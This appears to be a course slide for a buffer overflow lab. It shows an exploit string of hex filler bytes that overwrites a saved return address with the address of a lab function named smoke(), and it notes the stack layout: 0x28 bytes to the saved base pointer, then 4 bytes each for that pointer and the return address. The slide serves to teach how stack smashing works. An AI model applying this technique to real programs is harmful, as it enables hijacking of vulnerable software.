

# Exploit String
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 11 22 33
60 8b 04 08 /* smoke() address */

0x28 bytes from buf to R[%EBP]
4 bytes for saved old %EBP
4 bytes for saved ret addr